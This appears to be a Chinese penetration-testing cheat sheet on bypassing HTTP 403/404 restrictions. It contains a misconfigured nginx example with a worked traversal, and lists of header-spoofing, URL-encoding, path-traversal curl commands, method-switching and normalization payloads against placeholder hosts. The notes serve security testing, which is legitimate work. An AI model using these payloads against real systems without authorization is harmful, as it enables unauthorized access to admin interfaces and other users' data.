




403响应绕过
========================================

业务种类
----------------------------------------
+ 应用层面403
    |403-1|
+ 反向代理403
    - nginx
        |403-2|
    - apache
        |403-3|
    - iis
        |403-4|
+ 其它方法： 返回头

nginx配置示例
---------------------------------------
+ 漏洞配置示例（localtion路径末尾没有/）
    ::

        # 漏洞测试1：alias指令（静态文件遍历）
        location /static {
            alias /var/www/html/static_files/;  # 注意：alias目录与location名称不同
        }

        # 漏洞测试2：proxy_pass指令（反向代理穿透）
        location /api {
            proxy_pass http://localhost:8080/v1/;  # 转发到本地8080端口的/v1/路径,注意结尾有斜杠
        }

+ 正常访问
    - 预期行为 ：所有以/api开头的请求（如/api/user）应转发到后端服务器http://apiserver/v1/user。
    - 实际行为 ：由于/api末尾没有斜杠 ，而proxy_pass的路径有斜杠，拼接时可能产生路径错误。
    - 请求 ： ``http://server/api/user``
    - Nginx移除/api，剩余路径/user
    - 拼接后转发到： ``http://apiserver/v1//user`` （双斜杠会被服务器自动合并为单斜杠）
    - 最终实际访问： ``http://apiserver/v1/user`` （正常）。
+ 漏洞利用示例
    - 请求： ``http://server/api../``
    - Nginx移除 ``/api``，剩余路径 ``../``
    - 拼接后转发到： ``http://apiserver/v1/../`` （相当于返回上一级目录）。
    - 最终实际访问： ``http://apiserver/`` （访问到v1的上级目录！）。
    - 进一步利用 ： ``http://server/api../server-status``
    - 最终访问： ``http://apiserver/server-status`` （可能暴露服务器敏感信息）。
+ 漏洞验证
    - ``http://server/api/user`` →转发为 ``http://apiserver/v1//user``
    - ``http://server/apiuser`` →转发为 ``http://apiserver/v1/user``
    - **如果以下两个请求返回相同结果 ，则可能存在漏洞**

深入测试的现象
----------------------------------------

404->403
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``https://target.com/admin`` -> ``https://target.com/admin;/test``

403->404
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``GET /api/internal/getAllUsers`` -> ❌403
+ ``GET /api/internal/getAllUserz`` -> ❓404 

spring boot
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``https://target.com/actuator`` -> ``403 Forbidden``

403/404响应绕过
----------------------------------------

请求头篡改
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``X-Original-URL``
+ ``X-Rewrite-URL``
+ ``X-Custom-IP-Authorization``
+ ``X-Forwarded-For``
+ ``X-Client-IP``
+ ``X-Host``
+ ``Referer``

URL绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ hash绕过
    - ``https://target.com/admin`` -> ``https://target.com/#/admin``
+ 大小写绕过
    - ``https://target.com/admin`` -> ``https://target.com/Admin``
+ 编码绕过
    - 字符编码： ``https://target.com/admin`` -> ``https://target.com/%41dmin``
    - unicode编码： ``https://target.com/admin`` -> ``https://target.com/\u0061dmin``
    - 双重编码： ``https://target.com/admin`` -> ``https://target.com/%2561dmin``
+ 路径穿越+编码
    - ``curl -g --path-as-is "https://target.com/static/../admin"``
    - ``curl -g --path-as-is "https://example.com/%2e%2e/admin"``          # 把 ../ 编码成 %2e%2e/ 来访问 /../admin
    - ``curl -g --path-as-is "https://example.com/%2e%2e%2fadmin"``        # 把 ../admin 整个进行编码
    - ``curl -g --path-as-is "https://example.com/%2e%2e%2f%61dmin"``      # 把 ../ 和字母 a 都编码了，尝试绕过
    - ``curl -g --path-as-is "https://example.com/%2e%2e/%2e%2e/admin"``   # 尝试访问上上级目录 /../../admin 的编码形式
    - ``curl -g --path-as-is "https://example.com/%2e%2e/%2fadmin"``       # 尝试访问 ..//admin 的编码形式 (注意双斜杠)
    - ``curl -g --path-as-is "https://example.com/%20/admin"``             # 尝试在路径前加个空格 / /admin 的编码形式
    - ``curl -g --path-as-is "https://example.com/%2e%2fadmin"``           # 尝试访问 ./admin 的编码形式 (. 表示当前目录)
    - ``curl -g --path-as-is "https://example.com/admin%2f"``              # 尝试访问 admin/ 的编码形式 (注意末尾斜杠)
    - ``curl -g --path-as-is "https://example.com/admin%252f"``            # 尝试双重编码斜杠，/ 编码是 %2f，再把 % 编码成 %25，结果就是 admin%252f，看服务器会不会解码两次
    - ``curl -g --path-as-is "https://example.com/admin%2e%2e%2f"``        # 尝试访问 admin../ 的编码形式
+ 分号参数
    - ``https://target.com/admin`` -> ``https://target.com/admin;xyz=1``
+ 添加后缀
    - ``https://target.com/admin`` -> 403
    - ``curl https://example.com/admin.json``
    - ``curl https://example.com/admin.css``
    - ``curl https://example.com/admin.js``
    - ``curl https://example.com/admin.html``
    - ``curl https://example.com/admin.php``
    - ``curl https://example.com/admin.aspx``
    - ``curl https://example.com/admin.xml``
    - ``curl https://example.com/admin.txt``
    - ``curl https://example.com/admin.bak``
    - ``curl https://example.com/admin.old``
    - ``curl https://example.com/admin.zip``
    - ``curl https://example.com/admin.tar.gz``
+ 尾部增加/
    - ``/api/v5/users/9`` -> ``/api/v5/users/10/``
    - ``/api/v5/users/9`` -> ``/api/v5/users//10//``
+ 版本降级
    - ``/api/v5/users/9`` -> ``/api/v4/users/10``
    - ``/api/v5/users/9`` -> ``/api/v3/users/10``
+ 端点枚举
    - ``/api/v5/users/9`` -> ``/api/v5/users/9/details``
+ 多id
    - ``/api/v5/users/9`` -> ``/api/v5/users/9,8``
    - ``/api/v5/users/9`` -> ``/api/v5/users?id=10,9``
+ 类型混淆
    - ``/api/v5/users/9`` -> ``/api/v5/users/*9*``
    - ``/api/v5/users/9`` -> ``/api/v5/users/9abc``
+ 数字类型
    - ``/api/v5/users/9`` -> ``/api/v5/users/0x10``
+ NULL
    - ``/api/v5/users/9`` -> ``/api/v5/users/9%00``
    - ``/api/v5/users/9`` -> ``/api/v5/users/9%00//``
+ 增加标头
    - ``X-Original-URL: /api/v5/users/10``
    - ``X-Forwarded-For: /api/v5/users/10``
    - 参考： ``srcPython\src\payloads\403_header_payloads.txt``
+ 空格编码
    - ``/api/v5/users/9`` -> ``/api/v5/users/%209``
    - 参考： ``srcPython\src\payloads\403_url_payloads.txt``
+ HTTP版本降级
    - ``curl -http1.0 https://example.com/admin``      # 尝试用 HTTP/1.0 访问 /admin
    - ``curl -http1.0 https://example.com/secret``     # 尝试用 HTTP/1.0 访问 /secret 资源
    - ``curl -http1.0 https://example.com/config``     # 尝试用 HTTP/1.0 访问 /config 配置文件
    - ``curl -http1.0 https://example.com/dashboard``  # 尝试用 HTTP/1.0 访问管理后台仪表盘

PATCH绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``GET /api/v5/users/9`` -> ``PATCH /api/v5/users/9``
+ ``GET /api/v5/users/9`` -> ``POST /api/v5/users/9``
+ ``GET /api/v5/users/9`` -> ``PUT /api/v5/users/9``

路径规范化引起的绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- nginx + flask绕过
    + ``GET /admin%85``
    + ``GET /admin%a0``
- nginx + springboot绕过
    + ``GET /admin%09``
    + ``GET /admin%3b``
- nginx + node.js
    + ``GET /admin%09``
    + ``GET /admin%a0``
    + ``GET /admin%0c``

